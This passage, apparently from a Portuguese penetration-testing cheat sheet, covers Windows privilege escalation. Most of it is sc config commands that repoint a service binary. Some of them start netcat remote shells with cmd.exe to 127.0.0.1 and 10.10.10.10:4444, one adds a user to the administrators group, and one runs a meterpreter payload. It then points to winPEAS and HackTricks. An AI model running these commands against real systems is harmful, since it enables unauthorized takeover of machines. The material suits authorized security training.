 	sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"  
	sc config <Service_Name> binpath= "net localgroup administrators username /add"  
	sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"  
	sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"

## **Automações**

### winPEAS

Assim como no linux, esta é uma ferramenta para automatizar sua busca por informações relevantes sobre o sistema operacional, observe bem as saídas e você deve encontrar o que deve fazer para tomar a máquina para si. [Baixe aqui!](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

# Mais informações

[Neste site](https://book.hacktricks.xyz/) você pode obter mais dicas, informações e procedimentos para escalar privilégios.
